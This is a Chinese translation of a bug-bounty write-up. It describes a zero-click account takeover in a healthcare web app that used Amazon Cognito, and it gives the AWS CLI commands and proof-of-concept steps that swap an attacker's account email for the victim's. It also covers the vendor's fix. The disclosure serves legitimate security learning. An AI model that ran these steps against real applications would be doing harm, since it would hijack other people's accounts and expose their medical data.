

# 黑客攻击 AWS 认知错误配置到零点击账户接管

> 原文：<https://infosecwriteups.com/hacking-aws-cognito-misconfiguration-to-zero-click-account-takeover-36a209a0bd8a?source=collection_archive---------0----------------------->

## 大家好，希望你们一切都好，保持安全。这个博客是关于我最近的账户接管的发现。

## 灵感

我正在浏览来自 Hackerone 的[黑客文章，并读到了令人惊讶的](https://hackerone.com/hacktivity) [Flickr 账户被接管](https://hackerone.com/reports/1342088)。感谢 Lauritz 的发现和一篇出色的博文。如果你没看过，这里是[这里是](https://security.lauritz-holtmann.de/advisories/flickr-account-takeover/)。我还会在这篇文章的最后提供一些参考资料。

## 介绍

我正在测试一个与医疗保健相关的 web 应用程序。一些功能包括安排与医生的预约、订购药品、通过信息与网站内的医生互动等。这是一个经过认证的测试，提供了证书。

值得注意的是，电子邮件地址和其他细节不能从应用程序中更改，我们必须发送一个请求来支持任何更改。

登录应用程序后，我注意到登录请求被发送到 Amazon Cognito URL。如果你需要对登录有一个全面的了解，请浏览 Laurtiz 的博客或 Appseco 的博客。



图片摘自 [Appseco 博客。](https://blog.appsecco.com/exploiting-weak-configurations-in-amazon-cognito-in-aws-471ce761963)

因此，我测试的应用程序的登录流程如下。

*   登录该应用程序，一个 POST 请求被发送到 Amazon Cognito
*   如果凭证有效，Amazon Cognito 会提供代币。

```
HTTP/2 200 OK
Date: Thu, 32 Abc 2040 25:51:36 GMT
[...]{
    "AuthenticationResult":    
        {
            "AccessToken":"[REDACTED]",
            "ExpiresIn":3600,
            "IdToken":"[REDACTED]",
            "RefreshToken":"[REDACTED]",
            "TokenType":"Bearer"
        },
        "ChallengeParameters":
        {            
        }
}
```

*   接下来，该应用程序向 Amazon Cognito 发送请求以获取用户详细信息。具体来说，`X-Amz-Target: AWSCognitoIdentityProviderService.GetUser`头在 post 请求中与 AccessToken 一起发送。

```
POST / HTTP/1.1
Host: cognito-idp.eu-west-1.amazonaws.com
Referer: https://target
Content-Type: application/x-amz-json-1.1
**X-Amz-Target: AWSCognitoIdentityProviderService.GetUser** X-Amz-User-Agent: aws-amplify/0.1.x js
Origin: https://target
Content-Length: 1021
Connection: close{"AccessToken":"<AccessToken>"}
```

*   用户属性可以在响应中获得:

```
{
  "UserAttributes": [
    {
      "Name": "sub",
      "Value": "d7fdsfdfdsfdf9-4558b142bb58"
    },
    {
      "Name": "email_verified",
      "Value": "true"
    },
    {
      "Name": "given_name",
      "Value": "asddfdf"
    },
    {
      "Name": "family_name",
      "Value": "asdsddfdf"
    },
    {
      "Name": "email",
      "Value": "attacker@domain.com"
    }
  ],
  "Username": "sdfdsfdff8b142bb58"
}
```

## 剥削

登录后获得的 AccessToken 可以直接与 AWS-CLI 一起使用。按照 Lauritz 博客中的步骤，我们可以用下面的命令获取用户属性。

```
aws --no-verify-ssl cognito-idp get-user --region eu-west-1 --access-token <Insert Token Here>
```

用户属性可以在`update-user-attributes`的帮助下修改。我尝试添加新的属性，但是，这是不允许的。所以，我最初尝试改变现有的属性`given_name`，并且成功了。

```
aws --no-verify-ssl cognito-idp update-user-attributes --region eu-west-1 --access-token <Insert Token Here>  --user-attributes '**Name=given_name,Value=changed by AWS-CLI**'
```

在这之后，如果我获取用户属性，`given_name`确实被改变了。

现在是时候更改电子邮件了。以下是概念证明步骤

*   使用以下详细信息创建两个帐户

```
## Account 1
- email   : attacker@domain.com
- password: attackerRocks@!## Account 2
- email   : victim@domain.com
- password: victimaccount@!
```

*   作为攻击者登录并获取访问令牌。
*   使用访问令牌，通过 AWS CLI 将`email`更新为`victim@domain.com`

```
aws --no-verify-ssl cognito-idp update-user-attributes --region eu-west-1 --access-token <Insert Token Here>  --user-attributes '**Name=email,Value=victim@domain.com'**
```

*   电子邮件更改后，打开一个新窗口，用下面的详细信息登录，我们侵入了受害者的帐户。

```
email    - victim@domain.com
password - attackerRocks@!
```

*   如果您还没有发现这里的错误，我们已经成功地将我们的电子邮件更改为受害者的电子邮件，并使用攻击者的密码登录受害者的电子邮件。
*   成功利用此漏洞可以直接访问应用程序上的任何帐户，而无需受害者的任何干预。

## 应用的补丁

报告后不久，我就收到了补丁验证请求。现在，当我试图改变电子邮件，我们得到这个错误

```
An error occured (AliasExistsException) when calling the UpdateUserAttributes operation: An account with the given email address already exists.
```

现在，该应用程序不是盲目地改变电子邮件，而是检查该电子邮件是否有一个现有的帐户。

正如承诺的那样，这里有一些很酷的资源，可以用来学习如何入侵 AWS Cognito。

## 参考

*   [一个优秀的博客，他们在这里获得了 AWS 账户的管理员权限](https://notsosecure.com/hacking-aws-cognito-misconfigurations)
*   [AWS 认知安全的互联网规模分析](https://andresriancho.com/wp-content/uploads/2019/06/whitepaper-internet-scale-analysis-of-aws-cognito-security.pdf)

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)